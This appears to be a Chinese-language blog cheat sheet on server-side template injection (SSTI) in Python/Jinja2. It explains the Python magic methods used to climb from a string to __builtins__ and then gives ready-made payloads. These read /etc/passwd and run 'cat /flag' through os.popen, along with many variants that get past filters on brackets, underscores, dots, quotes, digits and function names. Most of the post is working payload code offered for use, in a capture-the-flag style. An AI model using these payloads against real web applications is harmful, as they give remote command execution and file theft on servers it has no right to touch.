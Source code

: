 # SSTI注入篇


# SSTI漏洞成因

ssti服务端模板注入成因为：web应用在使用框架（如python的flask、jinjia2、django；java的freemarker、velocity；php的thinkphp、smarty等）时，由于程序员对代码编写的不规范、不严谨造成模板注入漏洞，攻击者通过恶意注入模板代码影响服务器端模板引擎的行为。



# SSTI中常用魔术方法

- \__class__ 返回一个实例所属的类
- \__mro__ 查看类继承的所有父类，直到object
- \__subclasses__() 获取一个类的子类，返回的是一个列表
- \__bases__ 以元组形式返回一个类直接继承的类
- \__init__ 类实例创建之后调用，对当前对象的实例的初始化
- \__globals\_\_ 使用方式为**函数名**\.\_\_globals__，返回一个当前空间下能使用的模块、方法和变量的字典
- \__getattribute__ 当类被调用时，无条件进入此函数
- \__getattr__ 访问对象中不存在的属性时调用
- \__dict__ 返回所有属性，包括属性、方法等
- \__builtins__ 查看当前所有导入的内建函数



# 攻击思路

- ## 获取基本类

```markdown
__dict__          //返回类中的函数和属性，父类子类互不影响
__base__          //返回类的父类 python3
__mro__           //返回类继承的元组，(寻找父类) python3
__init__          //返回类的初始化方法   
__subclasses__()  //返回类中仍然可用的引用  python3
__globals__       //对包含函数全局变量的字典的引用 python3

对于返回的是类实例的话:
__class__         //返回实例的对象，可以使类实例指向Class，使用上面的魔术方法
```

```markdown
''.__class__.__mro__[-1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
```



- ## 获取基本类后，继续获取基本类的子类

  ```markdown
  object.__subclasses__()
  ```



- ##  找\__init__类

  ```markdown
  ''.__class__.__mro__[2].__subclasses__()[99].__init__



- ## 查看其引用\__builtins__

  ```markdown
  ''.__class__.__mro__[2].__subclasses__()[138].__init__.__globals__['__builtins__']
  ```

  

- ## 寻找keys中可用函数，使用 keys 中的 file 等函数来实现读取文件的功能

```markdown
''.__class__.__mro__[2].__subclasses__()[138].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```



# 常用目标函数

```markdown
file、subprocess.Popen、os.popen、exec、eval
```



# 绕过过滤方法

- ## 过滤中括号

  魔术方法\__getitem__可替代中括号

  ```markdown
  当中括号被过滤时，如下将被限制访问:
  {{''.__class__.__base__.__subclasses__()['xx'].['popen']('cat /flag')}}
  
  可用__getitem__替换中括号[]:
  {{''.__class__.__base__.__subclasses__().__getitem__(13).__getitem__('popen')('cat /flag')}}
  ```

  

- ## 过滤下划线

  ```markdown
  原payload被限制:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  1.使用attr()绕过，payload:
  {{ () | attr(request.args.a) | attr(request.args.b) | attr(request.args.c) | attr(request.args.d) | attr(request.args.e)()['popen']('cat /flag') | attr('read')() }}
  同时get方法传参?a=__class__&b=__base__&c=__subclasses__&d=__init__&e=__globals__
  
  2.将下划线进行编码绕过，payload:
  {{ ().['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[xx]['\x5f\x5finit\x5f\x5f'].['\x5f\x5fglobals\x5f\x5f']['popen']('cat /flag') }}
  ```

  

- ## 过滤点

  ```markdown
  原payload被限制:
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  1.使用attr()绕过，payload:
  {{ () | attr('__class__') | attr('__base__') | attr('__subclasses__')() | attr('__getitem__')(xx) | attr('__init__') | attr('__globals__') | attr('__getitem__')('popen')('cat /flag') | attr('read')()}}
  
  2. 使用中括号绕过，payload:
  {{ ()['__class__']['__base__']['__subclasses__']()[xx]['__init__']['__globals__']['popen']('cat /flag')['read']()}}
  ```

  

- ## 过滤大括号

  ```markdown
  使用{%%}替代{{}}，payload:
  {%print(''.__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read())%}
  ```

  

- ## 过滤引号

  ```markdown
  当'被过滤后以下访问将被限制
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  1.通过request.args的get传参输入引号内的内容，payload：
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[request.args.popen](request.args.cmd).read() }}
  同时get传参?popen=popen&cmd=cat /flag
  
  2.通过request.form的post传参输入引号内的内容，payload：
  {{ ().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.form.popen](request.form.cmd).read() }}
  同时post传参?popen=popen&cmd=cat /flag
   
  3.使用cookies传参，如request.cookies.k1、request.cookies.k2、k1=popen;k2=cat /flag
  ```

  也可将下划线进行

- ## 过滤数字

  ```markdown
  使用过滤器length绕过
  {% set a='aaa' | lenth %}{{ ().__class__.__base__.__subclasses__()[a]}}
  ```

  

- ## 过滤函数名

  ```markdown
  1.使用拼接绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['pop'+'en']('cat /fl' + 'ag').read() }}
  
  2.16进制编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['\x70\x6f\x70\x65\x6e']('cat /flag').read() }}
  
  3.base64编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[base64.b64decode('cG9wZW4=').decode()]('cat /fl' + 'ag').read() }}
  ```

  


---

> 作者: Hinoatari  
> URL: https://hinoatari.github.io/posts/ssti%E6%B3%A8%E5%85%A5%E7%AF%87/  

